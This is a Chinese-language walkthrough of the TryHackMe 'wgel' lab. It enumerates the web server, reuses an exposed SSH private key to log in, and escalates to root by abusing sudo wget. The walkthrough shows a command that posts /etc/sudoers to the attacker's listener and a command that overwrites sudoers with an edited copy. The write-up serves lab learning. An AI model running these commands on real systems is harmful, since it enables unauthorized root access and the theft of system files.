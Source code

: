 # 服务发现
```
┌──(root💀kali)-[~]
└─#  nmap -sV -Pn 10.10.106.99    
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-25 23:41 EDT
Nmap scan report for 10.10.106.99
Host is up (0.38s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.12 seconds
```


# 目录爆破
```
┌──(root💀kali)-[~/dirsearch]
└─#  python3 dirsearch.py -u http://10.10.106.99 -e* -t 100 -w /usr/share/wordlists/Web-Content/directory-list-lowercase-2.3-medium.txt

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: get | Threads: 100 | Wordlist size: 207627

Error Log: /root/dirsearch/logs/errors-21-09-25_23-42-55.log

Target: http://10.10.106.99

[23:42:56] Starting: 
[23:42:58] 301 -  314B  - /sitemap  ->  http://10.10.106.99/sitemap/
[23:42:58] 200 -   11KB - /        
CTRL+C detected: Pausing threads, please wait...                              
                                               
Canceled by the user
```

sitemap是一个叫```UNAPP```的软件网站介绍页，继续对这个这个网站爆破目录

```
┌──(root💀kali)-[~/dirsearch]
└─#  python3 dirsearch.py  -e* -t 100 -w /usr/share/wordlists/Web-Content/directory-list-2.3-medium.txt -u http://10.10.106.99/sitemap/

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: get | Threads: 100 | Wordlist size: 220521

Error Log: /root/dirsearch/logs/errors-21-09-26_02-39-06.log

Target: http://10.10.106.99/sitemap/

[02:39:07] Starting: 
[02:39:09] 200 -   21KB - /sitemap/
[02:39:09] 301 -  319B  - /sitemap/images  ->  http://10.10.106.99/sitemap/images/
[02:39:11] 301 -  316B  - /sitemap/css  ->  http://10.10.106.99/sitemap/css/
[02:39:12] 301 -  315B  - /sitemap/js  ->  http://10.10.106.99/sitemap/js/
[02:39:19] 301 -  318B  - /sitemap/fonts  ->  http://10.10.106.99/sitemap/fonts/
[02:44:16] 301 -  317B  - /sitemap/sass  ->  http://10.10.106.99/sitemap/sass/   
```


在about页面找到两个开发者的名字
```
Emily Turner
Adam Morris
```
做成一个可能的用户账号爆破ssh，用一个小字典，无果
```
emily
turner
emilyturner
adam
morris
adammorris
```

在http://10.10.106.99/首页源代码找到一行注释

```Jessie don't forget to udate the webiste```

确定一个用户名：```jessie```


在```http://10.10.106.99/sitemap/.ssh/```找到ssh登录秘钥
```
Index of /sitemap/.ssh
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[ ]	id_rsa	2019-10-26 09:24 	1.6K	 
Apache/2.4.18 (Ubuntu) Server at 10.10.106.99 Port 80

```

根据用户名和ssh登录秘钥，登录靶机，拿到user.txt
```
┌──(root💀kali)-[~/tryhackme/wgel]
└─#  ssh -i id_rsa jessie@10.10.106.99 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

Last login: Sun Sep 26 11:59:45 2021 from 10.13.21.169
jessie@CorpOne:~$ find / -name user_flag.txt

find: ‘/var/cache/lightdm/dmrc’: Permission denied
find: ‘/var/cache/cups’: Permission denied
find: ‘/var/log/speech-dispatcher’: Permission denied
find: ‘/var/lib/apt/lists/partial’: Permission denied
find: ‘/var/lib/colord/.cache’: Permission denied
find: ‘/var/lib/snapd/void’: Permission denied
find: ‘/var/lib/snapd/cookie’: Permission denied
find: ‘/var/lib/udisks2’: Permission denied
find: ‘/var/lib/update-notifier/package-data-downloads/partial’: Permission denied
find: ‘/var/lib/lightdm-data/lightdm’: Permission denied
find: ‘/var/lib/lightdm’: Permission denied
find: ‘/var/lib/polkit-1’: Permission denied
/home/jessie/Documents/user_flag.txt


jessie@CorpOne:~$ cat /home/jessie/Documents/user_flag.txt
057c67131c3d5e42dd5cd3075b198ff6

```

# 查看sudo权限
```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```
# 提权思路


通过wget我们事实上可以更换靶机上的任何文件，那么我们现在尝试替换```/etc/sudoers```文件，把```jessie  ALL=(root) NOPASSWD: /bin/bash```这一行添加到sudoers文件中，然后再覆盖掉靶机上的sudoers文件

这样我们就可以无需密码切换到root的bash

1，监听
```nc -lvnp 80 ```

2，发送
```sudo  -u root /usr/bin/wget --post-file=/etc/sudoers 10.13.21.169```

3,接收



把```/etc/sudoers```传回攻击机以备编辑
```sudo  -u root /usr/bin/wget --post-file=/etc/sudoers  10.13.21.169```

# 编辑sudoers
```
# 
#  This file MUST be edited with the 'visudo' command as root.
# 
#  Please consider adding local content in /etc/sudoers.d/ instead of
#  directly modifying this file.
# 
#  See the man page for details on how to write a sudoers file.
# 
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

#  Host alias specification

#  User alias specification

#  Cmnd alias specification

#  User privilege specification
root    ALL=(ALL:ALL) ALL

#  Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

#  Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

#  See sudoers(5) for more information on "# include" directives:

# includedir /etc/sudoers.d
jessie  ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(root) NOPASSWD: /bin/bash
```

# 从靶机下载覆盖编辑好的sudoers文件，成功提权
```
jessie@CorpOne:~$ sudo /usr/bin/wget http://10.13.21.169:8000/sudoers -O /etc/sudoers
--2021-09-26 12:45:55--  http://10.13.21.169:8000/sudoers
Connecting to 10.13.21.169:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 863 [application/octet-stream]
Saving to: ‘/etc/sudoers’

/etc/sudoers        100%[========================================================================================================================================>]     863  --.-KB/s    in 0,001s  

2021-09-26 12:45:55 (1,54 MB/s) - ‘/etc/sudoers’ saved [863/863]

jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
    (root) NOPASSWD: /bin/bash
jessie@CorpOne:~$ sudo bash
root@CorpOne:~#  cat /root/root_flag.txt 
b1b968b37519ad1daa6408188649263d
root@CorpOne:~#  
```